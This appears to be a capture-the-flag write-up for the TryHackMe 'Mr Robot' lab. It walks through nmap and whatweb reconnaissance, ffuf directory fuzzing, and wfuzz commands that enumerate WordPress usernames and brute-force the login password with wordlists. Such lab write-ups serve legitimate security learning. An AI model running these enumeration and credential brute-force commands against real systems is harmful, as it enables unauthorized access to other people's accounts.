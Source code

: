 # Nmap
After we ping the target we see that the ttl is 63, we might probably dealing with a Linux hosts (since this is most of the time the case). It might still be antohter OS.
[Here's] a list with the different OSes and their ttl's.


We start off with a TCP ports scan for all ports. In these challenges I tend to speed things up by using a minimum rate of 2000. In real life i might go slower later on because I might miss some ports.


```sh
┌──(kali㉿kali)-[~/THM/MR_ROBOT/recon/nmap]
└─$ nmap 10.10.22.96 --min-rate 2000 -p- -oA init  
```
## Nmap Results
```zsh
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```

## NMAP Version and Script
We continue with scanning the open ports we found with checking the versions (-sV) and using the default set of scripts (-sC). 
Some of these default scripts might be intrusive and might not be allowed in a real engagement.

In this scenario the default ssh-scripts are catagorized as `safe`. (`ssh-auth-methods` script is `intrusive`)
- [ssh-hostkey](https://nmap.org/nsedoc/scripts/ssh-hostkey.html)
- [sshv1](https://nmap.org/nsedoc/scripts/sshv1.html)



## Safe means
>Scripts which weren't designed to crash services, use large amounts of network bandwidth 
>or other resources, or exploit security holes are categorized as safe. These are less likely to offend remote administrators, though (as with all other Nmap features) we cannot guarantee that they won't ever cause adverse reactions. Most of these perform general network discovery...

I could not found different default scripts for http and https. Anyway let's enumerate using the above command

```zsh
nmap 10.10.22.96 --min-rate 2000 -p22,80,443 -sC -sV -oA openscsv -vv
```



```zsh
22/tcp  closed ssh      reset ttl 63
80/tcp  open   http     syn-ack ttl 63 Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c163b1987c342ad6634c1c9d0aafb97
| SHA-1: ef0c5fa5931a09a5687ca2c280c4c79207cef71b
| -----BEGIN CERTIFICATE-----
<LEFT OUT FOR READABILITY>
|_-----END CERTIFICATE-----
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

```

Strange in the output it doesn't give the robots.txt which I found with manually. Anyone knwos this problem

# Port 80,443 HTTP(S)
When visiting the website we see some obscure message about the chipping away of my existence. Not really caring about that at the moment but it adds nice up to the theme.
Below the message we find a shell with some limited commands listed. I did not find any other command working. Running the commands doesn't seem to give me lot's of infomration.
Maybe come back to it later

## Mr Robot robots.txt
In the robots.txt file we find the following dissalowed files and directories:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

We can open them since we are not a robot, at least I'm not 🤖.
The `key-1-of-3.txt` contains a flag. I guess the first one of three. This seems to be the correct flag when we submit it on the panel!
`User-agent: *` Means that these entries apply to all user-agents. We download and open the `fsocity.dic` file. It is a huge list, containing 858160 entries, with seemingly random words.
Maybe this is useful for user, passwords and directory bruteforcing.

## Enumeration whit Whatweb
Next we will use the tool `whatweb` to enumerate the different versions and software used by the page:
>WhatWeb identifies websites. It recognises web technologies including content management systems (CMS), blogging platforms, 
>statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
This is what whatweb does.

```zsh
whatweb http://10.10.22.96:80 -v -a1 
```
Some info in the results
```zsh
Summary   : Apache, HTML5, HTTPServer[Apache], Script, UncommonHeaders[x-mod-pagespeed], X-Frame-Options[SAMEORIGIN]
```
## Directory and file fuzzing with ffuf

```zsh
 ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://10.10.22.96/FUZZ -of all -o dirs80.html     -e .txt,.php,.html -c 
```
So robots.txt is showing up now.

## WP-login
In the results of ffuf we find the `/wp-login.php` file. We know that this is a wordpress site which was not found by whatweb.
To login to the page we need both a username and a password. I did look in the information of the page running different command but I did not found a name.
So let's switch to the `fsocity.dic` to check if there is a valid username.

I'm using the tool `wfuzz` for this. You could also use `hydra` with the `http-form-post`. But I just find the `wfuzz` syntax a bit better:
```zsh
wfuzz -c -w ~/Downloads/fsocity.dic --hs Invalid -d "log=FUZZ&pwd=password" -u http://10.10.22.96/wp-login.php
```
What does this mean:
--c: simply output with colors
--w the wordlist we are using
---hs We hide all responses with this regex
--d is the post data
--u is the url we are requesting

How do we get the right data parameters? On the `/wp-login.php` page we can just simply right click in the page and view the page source.
We will look for the names of the username and password entry field.

```html
<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" aria-describedby="login_error" class="input" value="" size="20"/></label>
	</p>
```

Here we see the names `log` for the username and `pwd` for the password.

The regex we want to hide is the message we get when posting a invalid username. We can just put a random name in the field. We can put the whole message or just part of it as a value of the `--hs` flag.

## Wfuzz results
```zsh
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.22.96/wp-login.php
Total requests: 858160

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                     
=====================================================================

000000015:   200        58 L     194 W      3635 Ch     "Elliot"     
```

Bingo we found a username! Let's try bruteforcing the password with hydra. The syntax is similar.

```zsh
wfuzz -c -w /usr/share/wordlists/rockyou.txt  -hs incorrect -d "log=ELLIOT&pwd=FUZZ" -u http://10.10.22.96/wp-login.php
```


